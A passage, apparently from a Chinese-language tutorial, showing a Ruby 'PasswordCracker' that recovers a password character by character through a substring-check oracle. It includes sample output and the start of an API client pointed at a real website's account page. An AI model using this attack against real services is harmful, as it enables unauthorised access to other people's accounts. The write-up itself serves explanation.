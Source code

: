 ```
Current password: 0hpfjpefoj490rjgsd
Current password: 20hpfjpefoj490rjgsd
Current password: 420hpfjpefoj490rjgsd
Current password: g420hpfjpefoj490rjgsd
g420hpfjpefoj490rjgsd
```

漂亮。再加一些 print 语句和 log，`PasswordCracker` 就完成了。

```
require 'faraday'

class PasswordCracker
  ALPHABET = (('a'..'z').to_a + ('0'..'9').to_a).shuffle
  SUBJECT = 'password'

  def initialize(api)
    @api = api
    @password = ''
  end

  def crack!
    find_starting_letter!
    puts "Found first letter: #{@password}"
    puts "\nBuilding forward!\n"
    build_forward!
    puts "\nBuilding backward!\n"
    build_backward!
    puts "Done! The result is #{@password}."
    puts "We found it in #{@api.iterations} iterations"
    @password
  end

  private

  def find_starting_letter!
    candidate_letters = ALPHABET - SUBJECT.chars
    @password = candidate_letters.find { |char| @api.include?(char) }
  end

  def build_forward!
    build!(forward: true)
  end

  def build_backward!
    build!(forward: false)
  end

  def build!(forward:)
    puts "Current password: #{@password}"
    ALPHABET.each do |char|
      guess = forward ? @password + char : char + @password

      if @api.include?(guess)
        @password = guess
        build!(forward: forward)
        return
      end
    end
  end
end

class Api
  BASE_URL = 'http://www.lettermelater.com/account.php'
```